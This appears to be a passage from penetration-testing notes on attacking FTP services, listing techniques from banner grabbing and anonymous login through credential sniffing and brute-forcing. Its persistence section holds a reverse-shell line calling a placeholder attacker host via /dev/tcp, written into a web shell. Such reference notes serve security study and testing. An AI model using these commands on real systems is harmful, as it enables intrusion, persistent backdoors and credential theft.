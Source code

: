#### Service Enumeration

*   **Tool:** \[\[NetCat]]

    ```bash
    nc <target_ip> 21
    ```
* **Description:** Retrieves the service banner to identify the software version and potential vulnerabilities.

### Initial Access

#### Anonymous Login

*   **Tool:** \[\[FTP]]

    ```bash
    ftp <target_ip> <target_port>
    >anonymous
    >anonymous
    ```
* **Description:** If anonymous login is enabled, attackers can log in without credentials and explore the file system, potentially finding sensitive information.

### Persistence

#### Planting a Backdoor

*   **Tool:** \[\[Custom Scripts]], \[\[FTP]]

    ```bash
    echo "bash -i >& /dev/tcp/<attack_ip>/4444 0>&1" > /path/to/webshell.php
    ```
* **Description:** Uploads a malicious web shell or backdoor script to maintain persistent access.

### Credential Harvesting

#### Packet Capture

*   **Tool:** \[\[Wireshark]]

    ```bash
    wireshark -i <interface> -f "tcp port 21"
    ```
* **Description:** Capture traffic and extract plaintext credentials.

#### FTP Credential Enumeration

*   **Tool:** \[\[Metasploit]], \[\[Nmap]]

    ```bash
    use auxiliary/scanner/ftp/ftp_login
    set RHOSTS <target_ip>
    run
    ```
* **Description:** Automates the process of guessing FTP credentials to harvest valid logins.
